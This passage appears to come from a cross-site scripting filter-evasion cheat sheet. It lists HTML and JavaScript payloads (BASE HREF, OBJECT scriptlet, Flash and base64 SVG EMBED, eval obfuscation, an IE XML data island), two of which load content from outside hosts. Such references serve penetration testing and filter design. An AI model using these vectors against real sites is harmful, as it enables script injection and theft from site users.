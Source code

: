 ```html
<BASE HREF="javascript:alert('XSS');//">
```

## OBJECT Tag

If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

## EMBED a Flash Movie That Contains XSS

Click here for a demo: [http://ha.ckers.org/xss.swf](http://ha.ckers.org/xss.swf)

```html
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

If you add the attributes `allowScriptAccess="never"` and `allownetworking="internal"` it can mitigate
this risk (thank you to Jonathan Vanasco for the info).

## EMBED SVG Which Contains XSS Vector

This example only works in Firefox, but it's better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

## Using ActionScript Inside Flash for Obfuscation

```js
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")"; 
eval(a+b+c+d);
```

## XML Data Island with CDATA Obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```xml
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

